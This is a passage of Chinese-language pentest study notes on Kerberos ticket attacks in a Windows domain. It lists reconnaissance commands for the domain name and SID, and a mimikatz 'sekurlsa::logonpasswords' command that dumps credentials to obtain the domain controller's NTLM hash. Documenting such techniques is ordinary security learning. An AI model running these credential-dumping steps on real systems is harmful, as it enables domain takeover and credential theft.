 ## 利用

因为这里MAC没有去搭建域环境（在后期Kerberos委派攻击的时候会在windows去搭建），所以对于利用只记录一个流程和payload

这两个票据的具体图片可以参考https://www.cnblogs.com/1-Ry/p/15418602.html

首先还是去获取域名和域SID值等信息

```
whoami
net time /domain
ipconfig /all		//获取域名

whoami /all	  //获取SID
```

在域控中使用mimikatz获取相关信息

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

![image-20230226193135855](images/9.png)

可以看到域控的NTLM Hash

其实前面CS的时候，我们用hashdump打印的mimikatz抓到的hash中也有NTLM Hash

![image-20220909134233967](images/4.png)
